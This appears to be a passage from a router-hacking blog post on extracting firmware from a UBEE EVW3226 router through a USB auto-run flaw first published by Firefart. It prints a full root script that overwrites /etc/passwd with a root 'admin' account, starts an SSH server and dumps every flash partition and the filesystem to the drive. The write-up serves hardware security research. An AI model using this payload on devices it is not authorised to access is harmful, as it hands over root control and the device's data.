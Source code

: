 [![UBEE top](/static/ubee/ubee_front.jpg)](/static/ubee/ubee_front.jpg)

Lucky for us, we didn’t have to mess with the UART interface of the router even though I was looking forward to it.
Just a day before I bought my UBEE router for experiments, Firefart [published an article](https://firefart.at/post/upc_ubee_fail/)
on how to get a root on the router just by inserting a USB drive with simple scripts.

Tl;dr: If USB drive has name `EVW3226`, shell script
`.auto` on it gets executed with system privileges. With this script you start SSH server, connect
prepared USB drive to the router and enjoy the root.

## Firmware Extraction {#firmware-extraction}

With this I managed to dump the whole firmware on the mounted USB drive.
The script we use to start SSH daemon and to dump the firmware is below.
Note: for detailed instructions on preparing USB drive please refer to the original [article](https://firefart.at/post/upc_ubee_fail/).

```bash
#!/bin/bash
if [ ! -e /etc/passwd.1 ]; then
	cp /etc/passwd /etc/passwd.1

    # dropbear_rsa_host_key has to be prepared on the USB drive 
    echo "admin:FvTuBQSax2MqI:0:0:admin,,,:/:/bin/sh" > /etc/passwd
    dropbear -r /var/tmp/disk/dropbear_rsa_host_key -p 192.168.0.1:22

    # Dump router FS to the drive as tar
    WHERE=/var/tmp/disk/HOMEROUTER
    mkdir -p ${WHERE}
    tar -cvpf ${WHERE}/router-image-root.tar -X/var/tmp/disk/tar-exclude /
    sync

    ## dd all mounted file systems
    for i in 0 1 2 3 4 5 6 7 8 9 10; do echo "CurDisk: mtdblock$i"; dd if="/dev/mtdblock${i}"\
           of="${WHERE}/fw-${i}.bin" bs=1 conv=noerror; done
    for i in 0 1 2 3 4 5 6 7 8 9 10; do echo "CurDisk: mtd$i"; dd if="/dev/mtd${i}" \
           of="${WHERE}/fw-${i}b.bin" bs=1 conv=noerror; done
    sync

    # Make simple FS copy
    DDIR=`pwd`
    WHERE=/var/tmp/media/0AAA-0E65/HOMEROUTER
    cd /
	mkdir -p $WHERE
	find /proc -type f | grep -v '/sys/' | grep -v '/net/' | grep -v '/kmsg' | \
       while read F ; do
   		D=${WHERE}/${F%/*}
   		echo "D: $D  F: $F WHERE: ${WHERE}$F"
   		test -d "$D" || mkdir -p $D && echo "DIR: $D"
   		test -f "${WHERE}$F" || cat $F > ${WHERE}$F
	done
	cd "$DDIR"
fi
```


[wifileaks.cz]: http://wifileaks.cz
